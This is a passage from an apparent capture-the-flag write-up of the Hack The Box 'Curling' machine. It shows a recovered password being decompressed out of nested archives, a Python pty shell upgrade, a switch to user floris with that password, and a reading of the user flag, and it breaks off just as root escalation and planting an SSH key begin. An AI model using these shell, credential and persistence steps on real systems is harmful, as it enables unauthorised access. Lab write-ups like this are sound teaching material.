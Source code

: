 ### gzip

another compressed file inside 

```
root@kali2:~/challenges/hackthebox/curling# file data.out.out                   
data.out.out: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix, original size 141
root@kali2:~/challenges/hackthebox/curling# mv data.out.out data.gz
root@kali2:~/challenges/hackthebox/curling# gunzip data.gz
root@kali2:~/challenges/hackthebox/curling# file data
download: bzip2 compressed data, block size = 900k
```

### bzip...again

and another...:O

```
root@kali2:~/challenges/hackthebox/curling# mv data password.bz2
root@kali2:~/challenges/hackthebox/curling# bzip2 -d password.bz2
root@kali2:~/challenges/hackthebox/curling# file password
password: POSIX tar archive (GNU)
```

### tar

tar - it keeps on going 

```
root@kali2:~/challenges/hackthebox/curling# tar xvf password
password.txt
root@kali2:~/challenges/hackthebox/curling# cat password.txt
5d<wdCbdZu)|hChXll
```

woop! got there in the end 

Now on the box `su` was used to swtich over to `floris` and get the user flag.

```
python3 -c 'import pty;pty.spawn("/bin/sh")'
$ su -l floris
su -l floris
Password: 5d<wdCbdZu)|hChXll
floris@curling:~$ cat user.txt
cat user.txt
65dd1d...
```

# Privesc to Root 

First, let's upload our ssh key so we don't have to rely on that meterpreter shell and get in nice and easy 
